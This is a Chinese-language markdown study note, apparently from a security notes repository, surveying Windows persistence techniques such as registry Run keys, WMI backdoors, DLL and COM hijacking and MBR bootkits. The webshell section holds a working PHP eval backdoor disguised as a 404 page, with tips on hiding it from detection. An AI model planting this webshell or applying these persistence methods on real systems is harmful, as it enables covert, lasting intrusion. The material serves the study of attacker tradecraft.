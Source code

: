 <!-- TOC -->

- [1. 开机自启动](#1-开机自启动)
- [2. 用户登录时的自启动](#2-用户登录时的自启动)
- [3. 定时任务（schtasks、at）](#3-定时任务schtasksat)
- [4. WMI](#4-wmi)
- [5. webshell](#5-webshell)
- [6. 自启动服务](#6-自启动服务)
- [7. DLL加载顺序劫持](#7-dll加载顺序劫持)
    - [7.1. 正常加载顺序](#71-正常加载顺序)
    - [7.2. 安全加载顺序](#72-安全加载顺序)
    - [7.3. KnownDLL保护措施](#73-knowndll保护措施)
- [8. COM劫持](#8-com劫持)
    - [8.1. 参考资料](#81-参考资料)
- [9. Bootkit](#9-bootkit)
    - [9.1. 参考资料](#91-参考资料)
- [10. 启动型DLL注入（进程启动时会自动加载DLL）](#10-启动型dll注入进程启动时会自动加载dll)
- [11. 修改或者替换系统的二进制文件，并伪造签名](#11-修改或者替换系统的二进制文件并伪造签名)

<!-- /TOC -->
# 1. 开机自启动
* 注册表项：`HKEY_LOCAL_MACHINE\SOFTWARE\Microft\windows\currentversion\run`
* Startup文件夹
# 2. 用户登录时的自启动
* 在注册表路径：`HKCU\Environment\`创建字符串键值：`UserInitMprLogonScript`，键值设置为特定的脚本路径即可
* 修改`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Userinit`，修改为特定脚本、批处理路径
* 注册表`HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`下其他表项，甚至可以允许恶意代码在安全模式下加载
# 3. 定时任务（schtasks、at）
从任务计划程序中可以看到列表
# 4. WMI
WMI是微软基于Web的企业管理（WBEM）的实现版本，这是一项行业计划，旨在开发用于访问企业环境中管理信息的标准技术。主要与Powershell命令配合使用可以实现无文件攻击重要方式，具有良好的隐蔽性也是目前较为常用的持久化手段。WMI对象主要是执行一个WQL(WMI Query Language)的查询后，本地调用Powershell执行响应的代码由于没有文件保存在本地磁盘能够较好的免查杀。Black Hat 2015公布了一个WMIBackdoor的poc毕竟还是经典，在流行的powersploit与nishang框架里面也有相关的ps1文件。传送门：https://github.com/mattifestation/WMI_Backdoor
# 5. webshell
在指定的web服务器路径藏的很深的那种放置一个webshell，同时做好免杀后的shell往往比常规的系统后门更难被发现，这个操作很常规。
可以插入到网站自身的404页面中，注意 header要放在第一行,否则在利用的时候日志记录的不会是404
```html
<?php
    header('HTTP/1.1 404 Not Found');
    @eval($_GET["Error"]); // 一句话
?>
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html>
    <head>
        <title>404 Not Found</title>
    </head>
    <body>
        <h1>Not Found</h1>
        <p>The requested URL was not found on this server.</p>
    </body>
</html>
```
各类webshell种类比较多传送门：https://github.com/xl7dev/WebShell
# 6. 自启动服务
简单的分为二种方式将自己的恶意的可执行文件注册成服务或者调用系统进程如svchost加载dll文件运行服务。第二种方式相对隐蔽性较好由于系统进程的特殊性往往不敢轻易终止进程，由于此类均在PE文件或者其他类型文件在磁盘中容易被查杀，特殊处理过的除外。

Metasploit在Meterpreter下可以运行run metsvc将会在目标主机上以Meterpreter的服务的形式注册在服务列表中，并开机自动自动，但是此类操作极容易被AV查杀。 

如下是永恒之蓝挖矿病毒一个常见病毒，通过伪装服务名为系统服务瞒天过海。

加入一个已存在的服务组或者覆盖一个无关紧要的服务（新创建服务组容易被探测）。
# 7. DLL加载顺序劫持
## 7.1. 正常加载顺序
DLL加载顺序如下：
* 加载应用程序的目录
* 当前目录（GetCurrentDirectory），chdir函数会更改此值
* 系统目录（GetSystemDirectory）
* 16位子系统的系统目录（.../Windows/System）
* Windows目录（GetWindowsDirectory）
* PATH环境变量目录
## 7.2. 安全加载顺序
如果启用了安全加载，则顺序为134526。
## 7.3. KnownDLL保护措施
`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs`里面列出了一些Dll文件，可以跳过DLL的加载过程直接从系统目录加载。另外有相关键`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\ExcludeFromKnownDlls`。
# 8. COM劫持
主要通过修改CLSID下的注册表键值，实现对CAccPropServicesClass和MMDeviceEnumerator劫持，而系统很多正常程序启动时需要调用这两个实例，所以，这就可以用作后门来使用，并且，该方法也能够绕过Autoruns对启动项的检测。
## 8.1. 参考资料
* https://www.gdatasoftware.com/blog/2014/10/23941-com-object-hijacking-the-discreet-way-of-persistence
* Powershell版本的POC：https://github.com/3gstudent/COM-Object-hijacking
# 9. Bootkit
MBR后门主要的思路是读取主引导记录和把分区表从主引导记录中复制出来。然后把自己的包含恶意二进制数据的主引导记录放到主引导扇区，并复制新的分区表到它。但是，并非只有分区表需要保留，还有原来的主引导记录也需要保存下来，MBR病毒复制原始主引导记录到其它64个未用到的扇区。到MBR病毒执行完自己的操作后在读取原始的主引导记录并跳到0x7c00处执行来引导开机，比如暗云系列木马。通过PCHunter也能够进行简单的MBR的异常判断，此类后门往往具有较大的实施难度病毒种类往往也较少。
## 9.1. 参考资料
* https://slab.qq.com/news/tech/1308.html
# 10. 启动型DLL注入（进程启动时会自动加载DLL）
[Windows进程注入技术](../恶意代码/Windows进程注入技术.md)
# 11. 修改或者替换系统的二进制文件，并伪造签名